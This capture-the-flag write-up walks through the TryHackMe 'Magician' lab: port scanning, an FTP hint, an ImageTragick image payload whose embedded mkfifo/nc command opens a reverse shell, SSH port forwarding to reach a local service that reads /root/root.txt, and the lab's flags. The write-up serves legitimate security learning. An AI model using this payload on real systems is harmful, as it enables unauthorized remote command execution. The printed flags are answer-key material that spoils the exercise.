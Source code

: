 > Magician

**export IP=10.10.191.118**

# Nmap

nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp   open  ftp     syn-ack vsftpd 2.0.8 or later
8081/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```

# Nikto

nitko -h http://$IP:8081

```
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
```

# Gobuster

gobuster dir -u http://$IP:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial

```
/img (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

# FTP

Anonymous Login

```
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though..
```

Looks like we can upload php files too!! But looks like a rabbit hole. Looking at the hint Imagetragick we can find payloads in `PayloadAllTheThings`. And this vulnerability is caused by ImageMagik Library. 

## Payload - try.png

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc 127.0.0.1 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
pop graphic-context
```

And we have a shell!! 

# user.txt

```
THM{simsalabim_hex_hex}
```

## Hint

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

Let's search for ports.

ss -anlt

```
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         128                 0.0.0.0:8081             0.0.0.0:*       
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128               127.0.0.1:6666             0.0.0.0:*       
LISTEN   0         100                       *:8080                   *:*       
LISTEN   0         32                        *:21                     *:*   
```

We can port forward using SSH.

In local machine start SSH. => sudo service ssh start

In target machine, => ssh -R 6666:localhost:6666 n00bmast3r@10.8.107.21 -p 125

And we have to setup a proxy using `foxyproxy`. `localhost`:`6666`.

And we can see a webpage requesting a filename to reveal it's content. Input `/root/root.txt`, we have the contents. Decoding it we have the flag!

# root.txt

```
THM{magic_may_make_many_men_mad}
```